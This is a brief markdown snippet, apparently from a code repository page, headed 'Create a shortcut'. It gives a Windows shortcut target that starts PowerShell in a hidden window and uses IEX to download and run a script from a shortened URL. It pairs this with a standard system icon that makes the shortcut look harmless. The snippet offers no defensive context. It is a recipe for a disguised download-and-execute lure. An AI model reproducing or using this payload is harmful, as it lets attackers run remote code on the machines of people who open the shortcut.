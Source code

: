 # Create a shortcut

**Location**

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -window hidden "IEX (New-Object System.Net.Webclient).DownloadString('https://goo.gl/x5OUhW')"
```

**Icon** 

```
C:\Windows\System32\imageres.dll
```
